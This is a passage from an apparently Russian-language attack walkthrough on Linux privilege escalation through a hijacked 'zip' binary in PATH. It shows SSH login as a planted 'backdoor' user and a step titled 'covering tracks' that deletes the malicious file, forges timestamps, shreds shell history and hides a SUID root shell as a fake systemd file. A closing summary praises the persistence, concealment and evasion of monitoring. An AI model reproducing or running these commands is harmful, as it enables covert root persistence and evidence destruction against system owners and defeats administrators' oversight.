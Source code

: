     whoami  # root
    ```
- **Чрез SSH**
    ```bash
    ssh backdoor@victim-host
    Password: password
    ```

---

#### Шаг 6: Маскировка следов
```bash
# Удаляем вредоносный zip
rm ~/.cache/.bin/zip

# Восстанавливаем оригинальный PATH
export PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

# Маскируем временные метки
touch -r /usr/bin/zip /tmp/.sh  # Копируем метки системного файла

# Очищаем историю команд
shred -zu ~/.bash_history
history -c

# Дополнительно:
# Для пользователя backdoor:
echo 'export PATH="/usr/bin:$PATH"' >> /root/.bashrc

# Для SUID-шелла:
mv /tmp/.sh /usr/lib/systemd/.sysupdate
chmod 4755 /usr/lib/systemd/.sysupdate
```

---

#### Выводы по атаке:
1. **Два независимых механизма для сохранения доступа:**
   - SUID-шелл в `/tmp`
   - Скрытый пользователь в `/etc/passwd`
2. **Полная маскировка:**
   - Основная функция (архивация) выполняется корректно
   - Нет аномалий в работе системы
   - Администратор видит успешное выполнение backup_reports
3. **Обход мониторинга:**
   - Директория `~/.cache` - стандартное место для кэша
   - Имя `.bin` выглядит легитимно
   - Подмена происходит только во время выполнения скрипта
4. **Кросс-платформенность:**
   - Работает для любых скриптов (Python, Perl, Bash)
   - Не зависит от версии ОС
   - Эффективна даже в контейнерах

---
